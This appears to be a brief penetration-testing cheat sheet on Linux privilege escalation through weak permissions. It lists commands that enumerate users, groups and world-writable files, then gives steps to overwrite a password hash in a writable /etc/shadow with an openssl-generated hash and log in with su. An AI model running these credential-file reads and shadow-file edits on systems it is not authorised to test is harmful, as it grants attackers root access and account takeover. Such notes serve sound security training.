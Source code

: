 # Weak permissions
check other users -- ```cat /etc/passwd```  
check groups -- ```cat /etc/group```

**Enumerate list of files that can be modified by every user on system**  
1. ```find / -not -type l -perm -o+w```  
2. check for /etc/shadow  
3. confirm you can edit the shadow file -- ```ls -al /etc/shadow```. Looks for rw access
4. use open ssl to replace password -- ```openssl passwd -1 -salt abc password```
5. copy the value
6. vim/nano /etc/shadow
7. replace asterisk with your hash (if Vim, keep cursor on first colon)
8. login with su
